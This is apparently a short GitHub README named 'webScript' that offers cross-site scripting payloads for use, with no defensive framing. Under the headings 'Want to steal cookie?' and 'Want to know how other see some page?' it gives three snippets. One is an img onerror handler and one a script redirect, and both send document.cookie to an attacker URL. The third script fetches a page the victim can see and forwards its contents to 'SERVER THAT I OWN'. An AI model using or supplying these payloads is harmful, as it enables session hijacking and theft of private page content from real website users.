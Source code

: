 # webScript

## Want to steal cookie ? 
Try this:
```js
<img src="" onerror="this.src='[URL]?cookie='+document.cookie;"></img>
```
```js
<script>document.location='[URL]?c='+document.cookie</script>
```

## Want to know how other see some page?
```js
<script>
fetch('[URL-PAGE TO BE STOLEN]')
.then((result) => { return result.text(); })
.then((content) => {
    fetch('[URL-SERVER THAT I OWN ]?c='+content)
    ; }); 
</script>
```
